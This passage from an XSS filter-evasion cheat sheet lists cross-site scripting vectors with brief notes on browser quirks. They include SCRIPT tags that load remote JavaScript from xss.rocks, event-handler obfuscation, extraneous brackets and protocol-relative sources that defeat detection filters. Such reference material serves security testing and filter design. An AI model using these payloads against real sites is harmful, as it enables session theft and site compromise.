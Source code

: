 <pre>&lt;SCRIPT/XSS SRC="http://xss.rocks/xss.js"&gt;&lt;/SCRIPT&gt;
</pre>

Based on the same idea as above, however,expanded on it, using Rnake fuzzer. The Gecko rendering engine allows for any character other than letters, numbers or encapsulation chars (like quotes, angle brackets, etc&#8230;) between the event handler and the equals sign, making it easier to bypass cross site scripting blocks. Note that this also applies to the grave accent char as seen here:

<pre>&lt;BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")&gt;
</pre>

Yair Amit brought this to my attention that there is slightly different behavior between the IE and Gecko rendering engines that allows just a slash between the tag and the parameter with no spaces. This could be useful if the system does not allow spaces.

<pre>&lt;SCRIPT/SRC="http://xss.rocks/xss.js"&gt;&lt;/SCRIPT&gt;
</pre>

## <span id="Extraneous_open_brackets" class="mw-headline">Extraneous open brackets</span>

Submitted by Franz Sedlmaier, this XSS vector could defeat certain detection engines that work by first using matching pairs of open and close angle brackets and then by doing a comparison of the tag inside, instead of a more efficient algorythm like Boyer-Moore that looks for entire string matches of the open angle bracket and associated tag (post de-obfuscation, of course). The double slash comments out the ending extraneous bracket to supress a JavaScript error:

<pre>&lt;&lt;SCRIPT&gt;alert("XSS");//&lt;&lt;/SCRIPT&gt;
</pre>

## <span id="No_closing_script_tags" class="mw-headline">No closing script tags</span>

In Firefox and Netscape 8.1 in the Gecko rendering engine mode you don&#8217;t actually need the &#8220;></SCRIPT>&#8221; portion of this Cross Site Scripting vector. Firefox assumes it&#8217;s safe to close the HTML tag and add closing tags for you. How thoughtful! Unlike the next one, which doesn&#8217;t effect Firefox, this does not require any additional HTML below it. You can add quotes if you need to, but they&#8217;re not needed generally, although beware, I have no idea what the HTML will end up looking like once this is injected:

<pre>&lt;SCRIPT SRC=http://xss.rocks/xss.js?&lt; B &gt;
</pre>

## <span id="Protocol_resolution_in_script_tags" class="mw-headline">Protocol resolution in script tags</span>

This particular variant was submitted by Łukasz Pilorz and was based partially off of Ozh&#8217;s protocol resolution bypass below. This cross site scripting example works in IE, Netscape in IE rendering mode and Opera if you add in a </SCRIPT> tag at the end. However, this is especially useful where space is an issue, and of course, the shorter your domain, the better. The &#8220;.j&#8221; is valid, regardless of the encoding type because the browser knows it in context of a SCRIPT tag.

<pre>&lt;SCRIPT SRC=//xss.rocks/.j&gt;
</pre>
